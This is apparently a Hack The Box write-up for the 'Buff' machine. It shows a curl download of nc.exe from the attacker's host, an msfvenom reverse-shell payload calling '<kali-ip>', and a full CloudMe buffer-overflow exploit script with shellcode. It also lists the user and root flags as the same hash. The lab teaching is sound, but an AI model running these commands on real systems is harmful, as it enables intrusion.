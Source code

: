 ```yaml
---
title: 'HTB: Buff'
date: 2020-11-21 19:04:00 -0400
categories: [HackTheBox, Write-ups]
tags: [HTB, pivot, overflow]     # TAG names should always be lowercase
---
```


IP: 10.10.10.198

We'll start things off with an NMap scan.
![06cfc558fe03d8b0c3ed3ca3e3649822.png](../assets/img/06cfc558fe03d8b0c3ed3ca3e3649822.png)

The webserver on port 8080 looks to be running Gym Management System. The standard footer has been changed to hide this, but it's fairly common in CTF boxes.
![c1b4ec2904be4e3ec168d8841d9c5104.png](../assets/img/c1b4ec2904be4e3ec168d8841d9c5104.png)

Although the footer was changed, it can still be confirmed on the contact page.
![9b3d9de1efcab6ab008f565155f73edd.png](../assets/img/9b3d9de1efcab6ab008f565155f73edd.png)

We can use a public exploit to get a basic shell from here: https://www.exploit-db.com/exploits/48506

If you're running Kali 2020, you will probably need to fix the exploit in order for it to work since Python2.7 is heavily phased out. This can be done with `2to3-2.7 -w 48506.py`.
![7275456c3113cf7b9e1dcbcea0218d3d.png](../assets/img/7275456c3113cf7b9e1dcbcea0218d3d.png)

Now we can run the exploit properly with Python3.
![f64f50b891d5a7611026a15244cbf293.png](../assets/img/f64f50b891d5a7611026a15244cbf293.png)

We can grab the user flag now before we try to get a better shell on the box.
![1e8c67e104e7a1a0c79a921f93aafe15.png](../assets/img/1e8c67e104e7a1a0c79a921f93aafe15.png)
`7ddf32e17a6ac5ce04a8ecbf782ca509`

CertUtil doesn't want to cooperate, but we do have access to Curl. We'll host a Netcat binary with `python -m SimpleHTTPServer 80` and then run `curl -O <kali-ip>:80/nc.exe` to pull it to the target.
![4a95b684b25ee4d221f0a4bb0f455638.png](../assets/img/4a95b684b25ee4d221f0a4bb0f455638.png)
![e1ec03a5cab2677f02cae976dc1bf2d2.png](../assets/img/e1ec03a5cab2677f02cae976dc1bf2d2.png)

Now we can start a listener and then call Netcat.
![f6956c3f6f6adca55ae60ed9c1b2ad8a.png](../assets/img/f6956c3f6f6adca55ae60ed9c1b2ad8a.png)
![ebed04248fed4e721a46f157b490dbc6.png](../assets/img/ebed04248fed4e721a46f157b490dbc6.png)

If we take a look at running processes with `tasklist` we see a strange process called CloudMe.
![7843a116bb14da112accdcffccd36db4.png](../assets/img/7843a116bb14da112accdcffccd36db4.png)

Looking around, we find the exe in Shaun's downloads folder.
![e3abd20723ec52b108ed4dcba88307cf.png](../assets/img/e3abd20723ec52b108ed4dcba88307cf.png)

A quick google search shows us that this version is vulnerable to a buffer overflow attack. Given the name of the box, this should be our way to privesc.
https://www.exploit-db.com/exploits/48389

The default port for CloudMe is 8888. We can check to see if it's listening on that with `netstat -aof | findstr :8888`.
![15194e417049dd2769842e62bcc79a96.png](../assets/img/15194e417049dd2769842e62bcc79a96.png)

Unfortunately we can't access this directly if we look back at our Nmap scan. We'll have to find a way to pivot into it using something like Plink.
![e26a278e002293ad825c7dfbe53d1825.png](../assets/img/e26a278e002293ad825c7dfbe53d1825.png)

We need to run Curl in another instance of the web shell.
![7d184b4ad7770a1bd5612f598f738ed6.png](../assets/img/7d184b4ad7770a1bd5612f598f738ed6.png)
![4104ddb888b79f62429201098b951c84.png](../assets/img/4104ddb888b79f62429201098b951c84.png)

Now we can start up the SSH service on our system for the incoming connection we'll make with Plink.
![fb7892c83fd455faad4232846498a3c5.png](../assets/img/fb7892c83fd455faad4232846498a3c5.png)

Before we make the connection, I strongly suggest you use the `passwd` command to set a temp password, or use a temporary account in case someone manages to hijack your credentials.
![bfb63c6255693c09d4fcfbcbac53891b.png](../assets/img/bfb63c6255693c09d4fcfbcbac53891b.png)

After some tinkering, we find that trying to call Plink from within the CMD shell we have doesn't work. Restarting the NC shell while passing powershell.exe shows the certificate dialog so we can confirm it. We have also set our SSH service to run on port 443 as well since HTB blocks SSH out on port 22 to keep users safer.
![ef60c279631269273f4b1338b32afce9.png](../assets/img/ef60c279631269273f4b1338b32afce9.png)

Now we can generate a payload for the CloudMe exploit using MsfVenom.
```
msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe <kali-ip> 4445 -e powershell.exe' -b '\x00\x0A\x0D' -f python -v payload
```
![d50e016d78503e5f469c1fc64f172b6b.png](../assets/img/d50e016d78503e5f469c1fc64f172b6b.png)

Now we have our finished exploit.
```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
payload =  b""
payload += b"\xd9\xd0\xd9\x74\x24\xf4\xba\x32\x4a\x21\x90\x58"
payload += b"\x2b\xc9\xb1\x40\x83\xe8\xfc\x31\x50\x14\x03\x50"
payload += b"\x26\xa8\xd4\x6c\xae\xae\x17\x8d\x2e\xcf\x9e\x68"
payload += b"\x1f\xcf\xc5\xf9\x0f\xff\x8e\xac\xa3\x74\xc2\x44"
payload += b"\x30\xf8\xcb\x6b\xf1\xb7\x2d\x45\x02\xeb\x0e\xc4"
payload += b"\x80\xf6\x42\x26\xb9\x38\x97\x27\xfe\x25\x5a\x75"
payload += b"\x57\x21\xc9\x6a\xdc\x7f\xd2\x01\xae\x6e\x52\xf5"
payload += b"\x66\x90\x73\xa8\xfd\xcb\x53\x4a\xd2\x67\xda\x54"
payload += b"\x37\x4d\x94\xef\x83\x39\x27\x26\xda\xc2\x84\x07"
payload += b"\xd3\x30\xd4\x40\xd3\xaa\xa3\xb8\x20\x56\xb4\x7e"
payload += b"\x5b\x8c\x31\x65\xfb\x47\xe1\x41\xfa\x84\x74\x01"
payload += b"\xf0\x61\xf2\x4d\x14\x77\xd7\xe5\x20\xfc\xd6\x29"
payload += b"\xa1\x46\xfd\xed\xea\x1d\x9c\xb4\x56\xf3\xa1\xa7"
payload += b"\x39\xac\x07\xa3\xd7\xb9\x35\xee\xbd\x3c\xcb\x94"
payload += b"\xf3\x3f\xd3\x96\xa3\x57\xe2\x1d\x2c\x2f\xfb\xf7"
payload += b"\x09\xdf\xb1\x5a\x3b\x48\x1c\x0f\x7e\x15\x9f\xe5"
payload += b"\xbc\x20\x1c\x0c\x3c\xd7\x3c\x65\x39\x93\xfa\x95"
payload += b"\x33\x8c\x6e\x9a\xe0\xad\xba\xd9\x3c\x0e\x3d\xbf"
payload += b"\x2d\xde\xcd\x63\xc5\x6a\x4a\xf3\x76\xe0\xce\x6c"
payload += b"\x01\x6b\xb3\x07\x81\x1f\x24\x89\x05\xbc\xd4\x2a"
payload += b"\xeb\x59\x51\xc8\xd3\x90\x91\x3c\x22\xe3\xff\x71"
payload += b"\x70\x2d\x31\x42\x58\x05\x05\x96\xad\x45\x48\xb3"
payload += b"\xed\xf5\xfd\x4c\x88\x87\x72\xdb\x37\x04\x19\x35"
payload += b"\xd2\xac\x84\x49"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))

buf = padding1 + EIP + NOPS + payload + overrun 

try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target,8888))
        s.send(buf)
except Exception as e:
        print(sys.exc_value)
```

We'll start up a new Netcat listener on port 4445 and fire off the exploit.
![f46a4c0b9690f0cac479efcd83437111.png](../assets/img/f46a4c0b9690f0cac479efcd83437111.png)
![1f85e6943af0a92fe0a7a6f19a515609.png](../assets/img/1f85e6943af0a92fe0a7a6f19a515609.png)

All that's left is to grab the root flag.
![44a5971c51e4bcda3735e3b9b8477165.png](../assets/img/44a5971c51e4bcda3735e3b9b8477165.png)
`7ddf32e17a6ac5ce04a8ecbf782ca509`

